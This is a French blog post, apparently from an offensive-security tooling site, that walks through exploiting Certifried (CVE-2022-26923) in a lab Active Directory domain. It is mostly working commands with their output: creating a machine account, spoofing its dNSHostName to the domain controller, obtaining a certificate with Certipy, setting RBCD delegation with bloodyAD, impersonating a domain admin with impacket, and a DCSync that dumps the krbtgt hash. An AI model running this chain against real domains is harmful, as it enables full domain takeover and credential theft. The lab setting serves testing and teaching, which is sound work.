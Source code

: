```yaml
---
title: Exploitation de Certifried (CVE-2022-26923)
summary: Découvrez comment exploiter la vulnérabilité Certifried facilement avec bloodyAD.
date: 2024-05-11
# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
# image:
#   caption: 'Image credit: [**Unsplash**](https://unsplash.com)'

authors:
  - soka
  - admin

tags:
  - Authentication
  - CVE
  - Exploit
  - bloodyAD
  - Microsoft

categories:
  - Active Directory
---
```


Une nouvelle élévation de privilège est sortie: Certifried (CVE-2022-26923) avec ce [billet de blog](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) après que Microsoft l'ait patché.
Voici un exemple de comment exploiter cette vulnérabilité avec [bloodyAD](https://github.com/CravateRouge/bloodyAD) sans utiliser PKINIT.

## Linux

On a besoin d'une machine, soit on en compromet une ou alors on en crée une si `ms-DS-MachineAccountQuota`>0:

```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 get object 'DC=crashlab,DC=local' --attr ms-DS-MachineAccountQuota                     

distinguishedName: DC=crashlab,DC=local
ms-DS-MachineAccountQuota: 10
```

On crée un objet machine `cve` dans le LDAP:
```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 addComputer cve 'CVEPassword1234*'

[+] cve created
```

Ensuite on change l'attribut `dNSHostName` (vide quand on crée l'objet) pour qu'il corresponde au nom de machine du contrôleur de domaine: `CRASHDC.crashlab.local`.

```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 set object 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName -v CRASHDC.crashlab.local

[+] CN=cve,CN=Computers,DC=crashlab,DC=local's dnsHostName has been updated
```

On vérifie que l'attribue a été configuré correctement:
```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 get object 'CN=cve,CN=Computers,DC=crashlab,DC=local' --attr dNSHostName                  

distinguishedName: CN=cve,CN=Computers,DC=crashlab,DC=local
dNSHostName: CRASHDC.crashlab.local
```

Et maintenant on utilise [Certipy](https://github.com/ly4k/Certipy) pour demander le certificat pour la machine `cve`:
```ps1
# 10.100.10.13 is the ADCS server
> certipy req 'crashlab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.100.10.12 -ca crashlab-ADCS-CA
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with DNS Host Name 'CRASHDC.crashlab.local'
[*] Saved certificate and private key to 'crashdc.pfx'

```

Maintenant on va essayer de récupérer un TGT en utilisant [Certipy](https://github.com/ly4k/Certipy) avec le certificat demandé précédemment:
```ps1
> certipy auth -pfx ./crashdc.pfx -dc-ip 10.100.10.12
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: crashdc$@crashlab.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

PKINIT ne fonctionne pas sur cet AD, essayons la technique RBCD avec [bloodyAD](https://github.com/CravateRouge/bloodyAD) et sa fonctionnalité d'authentification par certificat:
```ps1
> openssl pkcs12 -in crashdc.pfx -out crashdc.pem -nodes
> python bloodyAD.py -d crashlab.local  -c ":crashdc.pem" -u 'cve$' --host 10.100.10.12 add rbcd 'CRASHDC$' 'CVE$'
[+] CVE$ SID is: S-1-5-21-1945936656-2616711065-1665664270-1134             
[+] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity correctly set        
[+] Delegation rights modified successfully!                                                                           
CVE$ can now impersonate users on CRASHDC$ via S4U2Proxy
```

Les droits de délégation sont en place, maintenant on peut utiliser [impacket](https://github.com/SecureAuthCorp/impacket) `getST.py` pour usurper l'administrateur de domaine (`emacron` dans notre cas) sur CRASHDC$ et on récupère un TGT: 
```ps1
> getST.py -spn LDAP/CRASHDC.CRASHLAB.LOCAL -impersonate emacron -dc-ip 10.100.10.12 'crashlab.local/cve$:CVEPassword1234*'                 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation                                                               
                                                                                                                       
[*] Getting TGT for user                                                                                               
[*] Impersonating emacron                                                                                              
[*]     Requesting S4U2self                                                                                            
[*]     Requesting S4U2Proxy
[*] Saving ticket in emacron.ccache

> cp emacron.ccache /tmp/
> export KRB5CCNAME=/tmp/emacron.ccache
```

Pour finir on utilise [impacket](https://github.com/SecureAuthCorp/impacket) `secretsdump.py` pour réaliser un DCSync avec le TGT récupéré:
```ps1

> secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'crashlab.local/emacron@crashdc.crashlab.local' -k -no-pass -dc-ip 10.100.10.12 -target-ip 10.100.10.12 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:492850f62466ef2bd1f4a56f112e01f1::: (status=Disabled)
[*] Cleaning up...
```
